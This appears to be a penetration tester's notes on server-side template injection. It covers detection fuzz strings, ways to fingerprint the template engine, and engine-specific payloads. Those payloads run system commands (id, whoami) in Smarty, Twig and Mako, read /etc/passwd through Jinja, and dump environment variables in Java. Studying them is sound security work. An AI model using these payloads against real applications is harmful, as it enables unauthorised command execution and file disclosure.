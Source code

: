  # SSTI
 ## Detection
You can follow a similar approach when looking for template / expression language injections to the one you use when testing an application for stored XSS vulnerabilities - injecting a payload and looking for occurrences of it within the application

> If you are a user of Burp Suite Pro, you should get an extension named J2EE Scan which automatically adds tests for expression language injection

- Try  fuzzing Templating special charchters and see if any exception is raised 
	```
	${{<%[%'"}}%\
	${}
	{{}}
	<%= %>
	${7/0}
	{{7/0}}
	<%= 7/0 %>
	${foobar}
	{{foobar}}
	<%= foobar %>
	${7/0}
	{{7/0}}
	```

- Try to check if it contains a direct XSS vulnerability. Try injecting arbitrary HTML.
	```
	http://vulnerable-website.com/?greeting=data.username<tag>
	```
	In the absence of XSS, this will usually either result in a blank entry in the output (just Hello with no username), encoded tags, or an error message. 
	
- Try and break out of the statement using common templating syntax and attempt to inject arbitrary HTML after it
	```
	http://vulnerable-website.com/?greeting=data.username}}<tag>
	```
if the output is rendered correctly, along with the arbitrary HTML, this is a key indication that a server-side template injection vulnerability is present:
	
## Identify Technology
To better identify the technology, you can first:
- Observe which is the generic technology of the application. If it is java (e.g., you see it uses .jsp extensions), then you can suspect it is an expression language / OGNL.
- Use this diagram as it contains popular behavior of template engines when handling expressions.
![Pasted image 20210602032331.png](Screenshots/Pasted%20image%2020210602032331.png)
- Try to inject unclosed curly braces (be careful as there is a chance you might permanently disable the attacked webpage); this might provoke verbose error disclosing the underlying technology.
- Observe other verbose errors for technology names.
- If you suspect a specific technology, Check documentation for functions specific to that technology such as PHP Twig. Php Twig Can be confirmed by
```php
{{_self.env.display("xyz")}}
```

Another Methodology is:
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters. As a result, it can be relatively simple to create probing payloads to test which template engine is being used.

Simply submitting invalid syntax is often enough because the resulting error message will tell you exactly what the template engine is, and sometimes even which version.

For example, the invalid expression `<%=foobar%>` triggers the following response from the Ruby-based ERB engine:

```ruby
(erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError)
from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval'
from /usr/lib/ruby/2.5.0/erb.rb:876:in `result'
from -e:4:in `<main>'
```


## Exploitation



## Exploiting Technology Specific SSTIs
### PHP
#### Smarty
```php
{php}echo `id`;{/php}
```

#### Twig
```php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_s
elf.env.getFilter("whoami")}}
```

### Python
#### Maki
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

#### Jinja
```pyhon
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

#### Django
Explore the enviorment with
```python
{% debug %}
```

#### GO'S TEMPLATE ENGINE 
```go
// return the data structure passed into the template
{{ . }}
{{ self }}
```
### Read about the security implications in documentation
In addition to providing the fundamentals of how to create and use templates, the documentation may also provide some sort of "Security" section. The name of this section will vary, but it will usually outline all the potentially dangerous things that people should avoid doing with the template. This can be an invaluable resource, even acting as a kind of cheat sheet for which behaviors you should look for during auditing, as well as how to exploit them.

Even if there is no dedicated "Security" section, if a particular built-in object or function can pose a security risk, there is almost always a warning of some kind in the documentation. The warning may not provide much detail, but at the very least it should flag this particular built-in as something to investigate.

### Explore enviroment objects
At this point, you might have already stumbled across a workable exploit using the documentation. If not, the next step is to explore the environment and try to discover all the objects to which you have access.

Many template engines expose a "self" or "environment" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine. If such an object exists, you can potentially use it to generate a list of objects that are in scope. For example, in Java-based templating languages, you can sometimes list all variables in the environment using the following injection:

```java
${T(java.lang.System).getenv()}
```

### Developer-supplied objects
Websites will contain both built-in objects provided by the template and custom, site-specific objects that have been supplied by the web developer. Pay particular attention to these non-standard objects because they are especially likely to contain sensitive information or exploitable methods. As these objects can vary between different templates within the same website, be aware that you might need to study an object's behavior in the context of each distinct template before you find a way to exploit it.

